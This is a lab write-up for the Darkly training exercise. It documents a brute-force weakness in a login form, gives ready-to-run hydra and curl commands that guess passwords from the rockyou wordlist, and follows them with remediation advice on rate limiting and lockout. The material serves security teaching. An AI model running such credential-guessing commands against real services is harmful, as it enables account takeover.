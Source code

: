 <!-- explanation.md -->

# Brute-Force Vulnerability — Documentation

## How I Found It

### Step-by-step discovery process

#### Initial reconnaissance
- Visited http://192.168.1.16/index.php?page=signin and inspected the login form with browser devtools / proxy.
- Noted form parameters: username, password.
- Observed the application returns a consistent failure marker: images/WrongAnswer.gif.
- Performed several manual wrong attempts — no CAPTCHA, no progressive delay, no account lockout.

#### Identified the vulnerable behaviour
- Predictable failure response (easy to detect success or failure).
- Login accepts repeated requests without throttling suitable for automated brute force.

---

## How I Exploited It

### Exact commands and payloads used

Download wordlist

```bash
mkdir -p ~/wordlists
cd ~/wordlists
wget https://github.com/danielmiessler/SecLists/raw/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz
tar -xvzf rockyou.txt.tar.gz
# result: ~/wordlists/rockyou.txt
```

Hydra command (exact)

```bash
hydra -l admin -P ~/wordlists/rockyou.txt -F -o hydra.log 192.168.1.16 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif"
```

• `-l admin` → single username admin (use `-L` for username list).  
• `-P` → password list.  
• `-F` → stop on first success.  
• `http-get-form` with `F=` pointing to failure marker (images/WrongAnswer.gif).

Manual verification (curl)

```bash
# replace PASSWORD with candidate from hydra.log
curl -i "http://192.168.1.16/index.php?page=signin&username=admin&password=PASSWORD&Login=Login"
```

• Confirm success by absence of images/WrongAnswer.gif, presence of authenticated content or redirect.

Artifacts to include in Resources

- hydra.log (hydra output)  
- proof_curl.txt (curl response demonstrating success)  
- screenshot_failed.png (show WrongAnswer.gif)  
- screenshot_success.png (show authenticated page)

**Ethics:** Only test on authorized targets (your Darkly lab). Do not run these against systems without permission.

---

## Why It Works

### Underlying vulnerability explanation

- Predictable failure fingerprint: The app returns a unique string/image on failed login (images/WrongAnswer.gif) so tools can reliably detect failure vs success.
- No rate limiting / account lockout: The application accepts unlimited attempts from the same IP (or distributed ones) without blocking.
- Credentials in GET (exposed): Sending credentials in the URL increases exposure (logs, proxy history).
- Weak password policy / common passwords: Accounts may use easily guessed passwords (rockyou matches).
- No bot mitigation: No CAPTCHA, MFA, or behavioral checks to block automated tools.

Technical flow:
```
Attacker tools -> repeated requests with different passwords
↓
Server responds with same failure marker each time
↓
Tool recognizes missing marker -> reports success
```

---

## How to Fix It

### Security recommendations (short & actionable)

**Immediate / short-term**

1• Block rapid attempts (rate limit)  
Nginx example (basic):

```nginx
limit_req_zone $binary_remote_addr zone=login:10m rate=1r/s;
server {
  location = /index.php {
    if ($arg_page = "signin") {
      limit_req zone=login burst=5 nodelay;
    }
  }
}
```

2• Use POST for login (do not send credentials in URL).  
3• Make error messages generic (do not reveal if username exists).  
4• Add CAPTCHA / bot challenge after N failed attempts (e.g., after 3).  
5• Temporary IP blocking / Fail2Ban for repeated failures.

**Medium / long-term**

1• Per-account throttling & progressive lockout (example: after 5 fails lock for 15 minutes or increase delay).  
Simple pseudocode:

```pseudo
if ($user->locked_until && now < $user->locked_until) deny();
if (password_verify($pw,$hash)) reset_failed();
else increment_failed();
if (failed >=5) lock(15min);
```

2• Enforce strong passwords & check against breached lists at registration.  
3• Multi-Factor Authentication (MFA) for sensitive accounts.  
4• Use secure password hashing (Argon2id / bcrypt).  
5• Logging & alerting for credential-stuffing patterns integrate with SIEM.  
6• Use WAF rules to detect/mitigate automated attacks and block unusual request rates.

---

## Testing after fixes

- Re-run the hydra command to confirm it fails/gets blocked.  
- Verify CAPTCHA or lockout triggers after threshold.  
- Confirm credentials are not logged in URLs (POST used).  
- Check logs/alerts are generated on brute-force attempts.

---

## References

- OWASP Authentication Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html  
- OWASP Brute Force Prevention Guidance — https://owasp.org/www-project-cheat-sheets/  
- CWE-307: Improper Restriction of Excessive Authentication Attempts — https://cwe.mitre.org/data/definitions/307.html  
- Hydra tool (THC Hydra) — https://github.com/vanhauser-thc/thc-hydra  
- SecLists (rockyou) — https://github.com/danielmiessler/SecLists

---

## Files to include in Resources/

- explanation.md (this doc)  
- hydra.log  
- proof_curl.txt  
- screenshot_failed.png  
- screenshot_success.png  
- fix_summary.txt (short bullet list for ops)
